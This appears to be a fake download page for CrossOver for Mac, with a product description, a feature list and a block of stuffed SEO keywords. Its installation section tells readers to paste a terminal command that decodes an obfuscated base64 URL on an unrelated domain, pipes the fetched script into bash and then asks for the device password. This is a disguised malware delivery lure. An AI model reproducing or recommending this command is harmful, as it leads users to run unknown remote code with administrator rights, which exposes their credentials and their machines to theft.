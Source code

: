 # CrossOver for Mac Download - Windows Compatibility Layer Download

![CrossOver Interface](https://www.macworld.com/wp-content/uploads/2025/03/Crossover-for-Mac.jpg)
*Run Windows applications seamlessly on macOS*

---

# 🔽 Download CrossOver for Mac

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is CrossOver for Mac?

CrossOver for Mac is an innovative compatibility solution developed by CodeWeavers that allows macOS users to run Windows applications seamlessly without requiring a full Windows installation. Unlike traditional virtualization software, CrossOver uses advanced Wine technology to translate Windows API calls into macOS-compatible instructions in real-time.

This powerful tool bridges the gap between Windows and macOS ecosystems, enabling you to:
- Run essential Windows business applications like Microsoft Access, QuickBooks and industry-specific software
- Play Windows games with DirectX to Metal translation for improved performance
- Use legacy Windows programs no longer supported on modern Windows versions
- Test software cross-platform compatibility without dual booting

The technology behind CrossOver represents years of development in compatibility layers. It creates isolated "bottles" (self-contained Windows environments) that prevent system conflicts while maintaining application functionality. These bottles can be customized with different Windows versions (from XP to 10) and configurations to optimize specific applications.

For enterprise users, CrossOver offers centralized management and deployment options. For developers, it provides debugging tools to troubleshoot compatibility issues. And for everyday users, it delivers the simplest way to run Windows software on Mac without the overhead of virtualization.

---

## Key Features

- 🚀 Run Windows apps directly on macOS
- 💰 No Windows license required
- ⚡ Better performance than virtual machines
- 📦 Easy installation of supported apps
- 🎮 Game optimization features
- 🔄 Regular compatibility updates

---

## 🔍 Keywords

CrossOver for Mac, CrossOver Mac Download, CrossOver for Mac Download, CrossOver Download Mac, CrossOver Download for Mac, Download CrossOver for Mac, CrossOver for Download Mac, Download Mac CrossOver, Download for Mac CrossOver, Mac Download CrossOver, Download CrossOver Mac
